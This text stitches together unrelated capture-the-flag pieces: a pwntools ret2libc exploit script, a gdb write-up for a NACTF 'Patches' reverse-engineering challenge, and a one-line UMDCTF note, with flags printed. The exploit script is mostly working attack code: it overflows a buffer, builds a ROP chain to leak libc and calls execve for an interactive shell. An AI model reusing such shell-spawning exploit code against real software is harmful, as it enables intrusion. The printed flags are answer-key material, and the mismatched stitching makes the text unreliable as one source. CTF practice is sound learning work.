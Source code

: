 Basic Ret2Libc

Note :- I did not play this CTF, Just checked challenges after the CTF is over

```CSS  
#!/usr/bin/python

from pwn import *

context(os='linux',arch='amd64')  
context.log_level = 'DEBUG'  
context(terminal=['tmux','new-window'])

p = process('./patches')  
#p = gdb.debug('./patches','b main')  
e = ELF('./patches')  
libc = ELF('./libc-2.31.so')

JUNK = "A"*136

pop_rdi = e.search(asm('pop rdi; ret')).next()  
pop_rsi = e.search(asm('pop rsi; pop r15; ret')).next()  
gets = e.plt['gets']  
plt_puts = e.plt['puts']  
got_puts = e.got['puts']  
bss = e.get_section_by_name('.bss')["sh_addr"] + 1200  
main = e.symbols['main']

payload = JUNK + p64(pop_rdi) + p64(bss) + p64(gets) + p64(pop_rdi) +
p64(got_puts) + p64(plt_puts) + p64(pop_rsi) + p64(0) + p64(0) + p64(main)

p.recvuntil("> ")  
p.sendline(payload)  
p.sendline("/bin/sh\x00")

leak = u64(p.recvline().strip().ljust(8,'\x00'))  
libc.address = leak - libc.symbols['puts']  
print hex(libc.address)

execve = libc.symbols['execve']

payload = JUNK + p64(pop_rdi) + p64(bss) + p64(pop_rsi) + p64(0) + p64(0) +
p64(execve)

p.recvuntil("> ")  
p.sendline(payload)

p.interactive()  
```# Patches

## Task

This binary does nothing.

File: patches

## Solution

This is not the intended solution. I was supposed to patch the binary. What I
did was this:

```nasm  
gdb-peda$ info functions  
All defined functions:

Non-debugging symbols:  
0x0000000000001000  _init  
0x0000000000001030  puts@plt  
0x0000000000001040  __stack_chk_fail@plt  
0x0000000000001050  _start  
0x0000000000001261  print_flag  
0x00000000000012d9  main  
0x00000000000012f0  __libc_csu_init  
0x0000000000001360  __libc_csu_fini  
0x0000000000001368  _fini  
gdb-peda$ disass main  
Dump of assembler code for function main:  
  0x00000000000012d9 <+0>:     push   rbp  
  0x00000000000012da <+1>:     mov    rbp,rsp  
  0x00000000000012dd <+4>:     lea    rdi,[rip+0xeac]        # 0x2190  
  0x00000000000012e4 <+11>:    call   0x1030 <puts@plt>  
  0x00000000000012e9 <+16>:    mov    eax,0x0  
  0x00000000000012ee <+21>:    pop    rbp  
  0x00000000000012ef <+22>:    ret  
End of assembler dump.  
```

Expecting `print_flag` to do what it's name suggests I just set a breakpoint
at the `ret` instruction and modified `rip`.

```nasm  
gdb-peda$ disass main  
Dump of assembler code for function main:  
  0x00005555555552d9 <+0>:     push   rbp  
  0x00005555555552da <+1>:     mov    rbp,rsp  
  0x00005555555552dd <+4>:     lea    rdi,[rip+0xeac]        # 0x555555556190  
  0x00005555555552e4 <+11>:    call   0x555555555030 <puts@plt>  
  0x00005555555552e9 <+16>:    mov    eax,0x0  
  0x00005555555552ee <+21>:    pop    rbp  
  0x00005555555552ef <+22>:    ret  
gdb-peda$ b *0x00005555555552ef  
Breakpoint 1 at 0x5555555552ef  
gdb-peda$ r  
Starting program: patches  
Goodbye.  
Breakpoint 1, 0x00005555555552ef in main ()  
gdb-peda$ info functions print_flag  
All functions matching regular expression "print_flag":

Non-debugging symbols:  
0x0000555555555261  print_flag  
gdb-peda$ set $rip = 0x0000555555555261  
gdb-peda$ s  
0x0000555555555262 in print_flag ()  
gdb-peda$ c  
Continuing.  
nactf{unl0ck_s3cr3t_funct10n4l1ty_w1th_b1n4ry_p4tch1ng_L9fcKhyPupGVfCMZ}  
```

Insert shrug here.  

Original writeup (https://github.com/klassiker/ctf-
writeups/blob/master/2020/newark-academy/reverse-engineering/patches.md).change some routine in IDA pro to create and print flag. very simple ;)

UMDCTF-{4ll_u_g0tt4_d0_1s_p4tch}